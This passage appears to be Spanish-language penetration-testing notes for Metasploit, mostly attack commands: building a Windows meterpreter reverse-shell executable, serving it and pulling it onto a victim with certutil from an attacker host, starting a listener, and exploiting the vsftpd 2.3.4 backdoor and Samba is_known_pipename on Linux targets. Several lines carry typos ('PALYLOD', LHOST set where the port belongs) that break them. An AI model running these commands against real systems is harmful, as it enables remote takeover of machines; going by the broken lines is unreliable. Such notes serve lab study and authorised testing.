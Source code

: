 2. Creamos el palyload de meterpreter

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=1234 -f exe > meterpreter.exe
$ python3 -m http.server 80
```

3. Descargamos el payload en la máquina victima

```bash
$ sessions 1
$ certutil -urlcache -f http://<ATTACK-IP>/meterpreter.exe meterpreter.exe
```

4. Creamos el listener

```bash
msf6> use multi/handler
msf6> set PALYLOD windows/meterpreter/reverse_tcp
msf6> set LHOST <LHOST>
msf6> set LHOST 1234
msf6> run
```

5. Ejecutamos el payload en la máquina victima

```bash
$ \meterpreter.exe
```

---

## Explotación Linux

### FTP Server - Vsftpd 2.3.4 - Backdoor

```bash
$ msfconsole
msf6> workspace -a vsftpd2.3.4
msf6> setg <IP-TARGET>
msf6> db_nmap -sS -sCV -p- --open -O -Pn -n <IP-TARGET> -vvv
msf6> search vsfpd
msf6> use 0
```

### Samba

```bash
$ msfconsole
msf6> workspace -a samba
msf6> setg <IP-TARGET>
msf6> db_nmap -sS -sCV -p- --open -O -Pn -n <IP-TARGET> -vvv
msf6> search type:exploit name:smb
msf6> use exploit/linux/samba/is_known_pipename
msf6> run
CTRL + Z
msf6> sessions -u 1
meterpreter>
```
